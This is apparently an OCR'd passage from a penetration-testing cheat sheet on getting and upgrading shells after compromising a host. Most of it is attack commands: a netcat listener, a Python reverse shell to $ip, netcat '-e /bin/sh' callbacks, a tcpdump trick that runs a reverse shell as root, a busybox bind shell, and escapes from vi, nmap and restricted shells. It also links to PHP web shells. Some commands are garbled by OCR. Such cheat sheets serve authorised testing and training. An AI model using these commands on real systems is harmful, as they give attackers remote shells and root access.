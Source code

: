     `nc -nlvp 4444`
 
-   Spawning a TTY Shell - Break out of Jail or limited shell
         You should almost always upgrade your shell after taking control of an apache or www user.
         
        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )
       
        (hint: sudo -l to see what you can run)
       
     -   You may encounter limited shells that use rbash and only allow you to execute a single command per session.
         You can overcome this by executing an SSH shell to your localhost:
         
               ssh user@$ip nc $localip 4444 -e /bin/sh
               enter user's password
               python -c 'import pty; pty.spawn("/bin/sh")'
               export TERM=linux
         
      `python -c 'import pty; pty.spawn("/bin/sh")'`
 
               python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'
 
      `echo os.system('/bin/bash')`
 
      `/bin/sh -i`
 
      `perl —e 'exec "/bin/sh";'`
 
      perl: `exec "/bin/sh";`
 
      ruby: `exec "/bin/sh"`
 
      lua: `os.execute('/bin/sh')`
 
      From within IRB: `exec "/bin/sh"`
 
 
      From within vi: `:!bash`
     or
     
      `:set shell=/bin/bash:shell`
     
      From within vim `':!bash':`
 
      From within nmap: `!sh`
 
      From within tcpdump
     
         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root
 
      From busybox  `/bin/busybox telnetd -|/bin/sh -p9999`
 
-   Pen test monkey PHP reverse shell  
    [http://pentestmonkey.net/tools/web-shells/php-reverse-shel](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
 
-   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)
 